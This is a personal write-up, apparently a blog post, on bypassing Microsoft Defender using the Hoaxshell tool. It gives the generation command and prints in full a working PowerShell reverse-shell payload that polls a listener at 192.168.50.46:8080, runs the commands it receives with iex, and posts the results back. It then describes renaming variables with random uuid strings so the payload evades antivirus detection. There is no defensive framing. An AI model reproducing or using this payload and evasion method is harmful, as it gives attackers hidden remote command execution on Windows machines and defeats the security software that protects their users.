






Feb 23,2024
```
So I just want to share my writeup because I've been trying to bypass defender for sometime now and this is the first time I Officially bypassed Defender , I've spent countless hours obfuscating my powershell command using unicorn, invoke-obfuscation and chimera , I would highly suggest to watch t3l3machus it definitely helped me to bypass defender, thank you brother
```

#1 . Create a shell using Hoaxshell
I used this command,
./hoaxshell.py -s 192.168.50.46 -r -H 'Authorization'
-r = raw payload
-H = additional hoaxshell tag to bypass defender
and then it will spit out this shell here
```
$s='192.168.50.46:8080';$i='db6a3b05-dc656d46-1fb446ac';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/db6a3b05 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/dc656d46 -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/1fb446ac -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

```
this raw payload would be flagged down by microsoft so I used variable substitution I learned from t3l3machus,
Using python I used uuid module as well to create random strings
python commands I used to spit out 10 random strings
import uuid
uuid.uuid4().hex
for i in range(10):
uuid.uuid4().hex
```

```
and then I opened sublime text to edit some variables , I changed 7 variables from the raw payload before, to look like this,
```

```
and then I tested it in my victim machine with Microsoft Defender active , and it WORKS!!!
```

```
I waited for 15mins to check if I would be disconnected.... I noticed that I am not getting disconnected even when I am executing commands like ipconfig,sysinfo,whoami etc... , The only time I got disconnected was when I created a file in the desktop folder
```

```